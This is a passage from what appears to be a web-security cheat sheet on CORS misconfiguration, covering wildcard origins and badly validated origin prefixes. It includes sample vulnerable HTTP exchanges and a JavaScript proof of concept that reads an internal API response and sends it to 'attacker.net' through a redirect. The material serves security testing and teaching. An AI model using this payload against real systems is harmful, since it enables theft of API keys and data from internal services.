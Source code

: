 If the server responds with a wildcard origin `*`, **the browser does never send
the cookies**. However, if the server does not require authentication, it's still
possible to access the data on the server. This can happen on internal servers
that are not accessible from the Internet. The attacker's website can then 
pivot into the internal network and access the server's data without authentication.

```powershell
* is the only wildcard origin
https://*.example.com is not valid
```

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### Proof of concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```


### Expanding the Origin

Occasionally, certain expansions of the original origin are not filtered on the server side. This might be caused by using a badly implemented regular expressions to validate the origin header.

#### Vulnerable Implementation (Example 1)

In this scenario any prefix inserted in front of `example.com` will be accepted by the server. 

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```
